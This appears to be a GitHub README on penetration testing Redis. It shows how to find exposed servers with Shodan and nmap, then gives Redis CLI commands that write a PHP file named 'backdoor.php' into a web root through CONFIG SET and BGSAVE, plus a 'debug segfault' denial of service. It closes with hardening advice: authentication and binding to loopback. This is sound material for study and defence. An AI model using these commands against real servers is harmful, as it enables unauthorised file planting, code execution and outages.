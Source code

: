 # Redis.turb
## *Redis.io* Penetration Testing (v3.0.4)
![GitHub Logo](/Redis_Logo.jpg)
##### Intro

*Redis.io* is an open source in-memory database developed to store volatile data as messages, cache, cookie, etc.

I beg you to read [Redis.io/security](http://redis.io/topics/security) if you have any intention to setup *Redis.io* in production.

##### Discover misconfigured *Redis.io*

*Shodan* :

` { product:"Redis key-value store", port:"6379" } `

*Nmap* :

`nmap -p 6379 -n --open --script=redis-info xxx.xxx.xxx.xxx/yy`

##### Upload malicious file

Requirement : access to CONFIG and BGSAVE or SAVE
```
localhost:6379> config set dir /var/www/html
OK
localhost:6379> config get dir
1) "dir"
2) "/var/www/html"
- - - - -
localhost:6379> config set dbfilename backdoor.php
OK
localhost:6379> config get dbfilename
1) "dbfilename"
2) "backdoor.php"
- - - - -
localhost:6379> set cmd "<?php phpinfo(); ?>"
OK
localhost:6379> bgsave
Background saving started
- - - - -
-rw-r--r-- 1 redis redis 45 Sep 19 17:01 backdoor.php
```

##### Denial Of Service

```
localhost:6379> debug segfault
(9.69s)
not connected> 
```

#### Security Best Practices


##### Enable authentication

Add to **redis.conf** :

`requirepass foobabar`

Thus, run *Redis.io* with your **redis.conf** file :

`redis-server /fullpath/to/redis.conf`

##### Only bind *Redis.io* to Loopback

Add to **redis.conf** :

`bind 127.0.0.1`

Allow access only from loopback (implied that the application that needs *Redis.io* running on the same host).

##### Fuzz Redis.io with OpenRCE/Sulley and AFL
[Lighting Talk](http://tfairane.github.io/fuzzing.html#/)

##### MUST READ
http://antirez.com/news/96

